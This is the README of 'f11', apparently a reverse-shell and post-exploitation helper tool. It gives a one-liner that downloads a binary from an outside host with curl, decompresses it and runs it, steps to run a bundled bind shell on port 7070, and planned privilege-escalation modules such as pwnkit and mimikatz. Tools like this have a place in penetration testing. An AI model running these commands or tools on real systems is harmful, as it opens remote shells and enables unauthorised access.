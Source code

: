 # f11
*revshellpal*


### Install via NPM

```bash
npm i -g f11
f11
```


### Standalone one-liner

```bash
rm /tmp/f11; curl -sL https://f11snipe.sh/f11.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11
```


### Run included standalone bind shell

```bash
# Extract archive
xz -d f11-bind.xz

# Allow execute
chmod +x f11-bind

# Run rev bind shell (port 7070)
./f11-bind
```

### Build from source

```bash
# Run all build steps
npm install
npm run ci
```


#### Individual build steps
```bash
# Install npm packages
npm install

# Build TypeScript
npm build

# Compile
npm run compile

# Compress
npm run compress
```

### TODO - Modules to support

- linpeas (other peas?)
  - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- pwnkit
  - https://github.com/ly4k/PwnKit
- mimikatz (windows)
  - https://github.com/ParrotSec/mimikatz
- SUID/SUDO/CAP/
  - https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid


### Other modules?
- https://github.com/mzet-/linux-exploit-suggester
- https://github.com/diego-treitos/linux-smart-enumeration
- https://github.com/linted/linuxprivchecker
- custom?
  - https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
